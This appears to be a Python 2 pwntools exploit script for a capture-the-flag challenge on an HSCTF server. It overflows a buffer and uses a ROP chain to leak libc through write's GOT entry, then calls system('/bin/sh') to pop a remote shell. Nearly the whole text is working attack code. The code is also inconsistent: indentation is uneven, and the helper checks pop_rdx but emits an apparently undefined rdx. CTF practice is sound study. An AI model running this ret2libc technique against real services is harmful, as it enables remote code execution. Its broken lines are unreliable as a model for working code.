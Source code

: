 ```python
  def call(f, a1, a2, a3):
    out = ''
    if a1 != None:
      out += p64(pop_rdi)+p64(a1)
    if a2 != None:
      out += p64(pop_rsi_r15)+p64(a2)*2
    if a3 != None:
      if pop_rdx == 0:
        print 'RDX GADGET NOT FOUND'
        exit(-1)
      else:
        out += p64(rdx)+p64(a3)
    return out+p64(f)

def attach_gdb():
  gdb.attach(sh)

if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  sh = remote('pwn.hsctf.com', 3333)
  REMOTE = True
write_plt = 0x004004a0
write_got = 0x0000000000601018
main_addr = 0x40062e

# leak libc
payload = 'a'*(0x30+8)
payload += call(write_plt, 1, write_got, None)
payload += p64(main_addr)
sh.sendlineafter(': \n', payload)

libc_base = u64(sh.recvuntil('story')[:8])-0x0f72b0
print 'libc_base: {}'.format(hex(libc_base))

system_addr = libc_base + 0x045390
bin_sh_addr = libc_base + 0x18cd57

# system("/bin/sh") to pop shell

payload = 'a'*(0x30+8)
payload += call(system_addr, bin_sh_addr, None, None)
sh.sendlineafter(': \n', payload)

sh.interactive()
```
